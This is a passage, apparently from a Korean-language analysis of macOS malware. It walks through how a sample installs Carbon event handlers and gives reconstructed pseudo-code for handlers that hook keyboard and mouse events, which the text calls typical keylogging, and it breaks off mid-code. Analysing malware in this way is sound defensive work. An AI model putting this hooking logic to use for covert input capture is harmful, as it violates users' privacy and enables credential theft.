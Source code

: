 ```yaml
    MonitorHandler, 1, kEventClassCommand, NULL, &amp;sHandler);\nInstallEventHandler(GetApplicationEventTarget(),
    NewEventHandlerUPP(SuspendResumeHandler), 2, kEventClassApplication, NULL, NULL);</pre>\nGetApplicationEventTarget()는
    특정 대상에서 이벤트를 전송하고 그에 대한 핸들러를 등록할 수 있다. 이 때 한가지 문가 발생할 수 있는데, 여러 이벤트가 동일한 이벤트 코드를
    가질 수 있기 때문에 사용자 정의 핸들러에서 이를 구분 짓는데 문제가 발생할 수 있다는 점이다. 예를 들어, 마우스 클릭 이벤트(kEventMouseDown)와
    앱 활성화 이벤트(kEventAppActivated)는 동일한 이벤트 값인 1을 가지기 때문에 미리 모니터링 타켓을 정해줘야 한다. 악성코드는
    이 문제를 해결하기 위해 GetEventMonitorTarget 함수를 사용하였다.\n\n두 번째 인자는 이벤트 발생 시 실행되는 핸들러로
    GetApplicationEventTarget 함수에는 CmdHandler를, GetEventMonitorTarget 함수에는 MonitorHandler를
    설정하였다.\n\n네번째 인자는 cmds는 Command Events (HICommands), appl은 애플리케이션의 실행 종료 등의 이벤트를
    말하는 Application-level Events이다.\n\n사용자가 입력한 명령어를 핸들링 하는 CmdHandler는 전달된 이벤트에 따라
    그에 맞는 Handler를 AddEventTypesToHandler() API로 추가한다.  다음은 CmdHandler에 대한 Pseudo-Code이다.<!--?xml
    version=\"1.0\" encoding=\"UTF-8\" standalone=\"no\"?-->\n<pre class=\"lang:objc
    decode:true\" title=\"CmdHandler pseudo-code\">int CmdHandler(int a1, EventRef
    theEvent)\n{\n\tif (GetEventClass(theEvent) != kEventClassCommand)\n\t{\n\t\tif(gApplicationActive
    == 1 &amp;&amp; gProcessForegroundEvents == 1)\n\t\t\treturn MonitorHandler(a1,
    theEvent);\n\t\treturn 0;\n\t}\n\n\tGetEventParameter(theEvent, kEventParamDirectObject,
    kEventParamHICommand, 0, 14, 0, &amp;v5);\n\n\tUInt32 result = 0;\n\tUInt32 Code
    = 0;\n\tswitch(items) {\n\t\tcase kCmdMouseDown:\n\t\t\tresult = kEventClassMouse;\n\t\t\tcode
    = kEventMouseDown;\n\t\t\tbreak;\n\t\tcase kCmdKeyModifiersChanged:\n\t\t\tresult
    = kEventClassKeyboard;\n\t\t\tcode = kEventRawKeyModifiersChanged;\n\t\t\tbreak;\n\t\tcase
    kCmdForeground:\n\t\t\tgProcessForegroundEvents = GetControlValue(v7);\n\t\t\tbreak;\n\t\tcase
    kCmdKeyDown:\n\t\t\tresult = kEventClassKeyboard;\n\t\t\tcode = kEventRawKeyDown;\n\t\t\tbreak;\n\t\tcase
    kCmdKeyRepeat:\n\t\t\tresult = kEventClassKeyboard;\n\t\t\tcode = kEventRawKeyRepeat;\n\t\t\tbreak;\n\t\tcase
    kCmdKeyUp:\n\t\t\tresult = kEventClassKeyboard;\n\t\t\tcode = kEventRawKeyRepeat;\n\t\t\tbreak;\n\t\tcase
    kCmdMouseUp:\n\t\t\tresult = kEventClassMouse;\n\t\t\tcode = kEventMouseUp;\n\t\t\tbreak;\n\t\tcase
    kCmdTabletPoint:\n\t\t\tresult = kEventClassTablet;\n\t\t\tcode = 1;\n\t\t\tbreak;\n\t\tcase
    kCmdTabletProximity:\n\t\t\tresult = kEventClassTablet;\n\t\t\tcode = 3;\n\t\t\tbreak;\n\t\tcase
    kCmdMouseWheel:\n\t\t\tresult = kEventClassMouse;\n\t\t\tcode = kEventMouseWheelMoved;\n\t\t\tbreak;\n\t\tdefault:\n\t\t\treturn
    -1;\n\n\t}\n\n\tif(GetControlValue(v7))\n\t{\n\t\tOSStatus handler_status1 = AddEventTypesToHandler(sHandler,
    1, &amp;result);\n\t\tOSStatus handler_status2 = AddEventTypesToHandler(fHandler,
    1, &amp;result);\n\n\t\tif (handler_status1 != 0 || handler_status2 != 0)\n\t\t{\n\t\t\t//
    에러 메시지출력\n\t\t}\n\t\telse\n\t\t{\n\t\t\t// 이벤트 타입 추가 완료 메시지 출력\n\t\t}\n\n\t}\n\telse\n\t{\n\t\tRemoveEventTypesFromHandler(sHandler,
    1, &amp;result);\n\t\tRemoveEventTypesFromHandler(fHandler, 1, &amp;result);\n\t}\n\treturn
    0;\n}</pre>\nAddEventTypesToHandler는 추가적인 핸들러를 등록하는 과정으로 예를 들어 kEventClassKeyboard
    는 키보드 입력을 핸들링 한다는 의미가 된다. 즉 이 함수는 들어오는 커맨드 명령에 따라 새로운 이벤트 타입을 핸들러에 등록하는 역할을 한다.\n\nMonitorHandler의
    경우에는 GetEventClass를 통해 모니터링되는 이벤트의 클래스를 구분짓고 마우스와 키 입력 이벤트를 탈취하는 전형적인 키보드 후킹 방법을
    사용한다.\n<pre class=\"lang:objc decode:true\" title=\"monitorhandler\">// Event
    Code\n// Reference :http://sourcecodebrowser.com/sympy/0.5.8/plotting_2pyglet_2window_2carbon_2constants_8py_source.html\n//
    https://developer.apple.com/legacy/library/documentation/Carbon/Conceptual/Carbon_Event_Manager/CarbonEvents.pdf\n\nint
    MonitorHandler(int a1, EventRef theEvent)\n{\n\tUInt32 eventClass = GetEventClass(theEvent);\n\tUInt32
    result;\n\tif(eventClass == kEventClassMouse) // Mouse\n\t{\n\t\tif(GetEventKind(theEvent)
    == kEventMouseMoved) // 마우스가 이동하는 경우\n\t\t\t// 마우스의 현재 위치 정보를 가져옴\n\t\t\tGetEventParameter(theEvent,
    kEventParamMouseLocation, typeQDPoint, NULL, sizeof(result), NULL, &amp;result);\n\t}\n\telse\n\t{\n\t\tif(eventClass
    == kEventClassTablet) // tablet\n\t\t{\n\t\t\tGetEventKind(theEvent);\n\t\t\treturn
    0;\n\t\t}\n\t\tif(eventClass == kEventClassKeyboard) // keyboard\n\t\t{\n\t\t\tUInt32
    eventKind = GetEventKind(theEvent);\n\t\t\tif(eventKind == kEventRawKeyRepeat)
    // 키가 반복되서 눌릴 경우(키보드를 누르고 있는 경우)\n\t\t\t{\n\t\t\t\tGetEventParameter(theEvent,
```
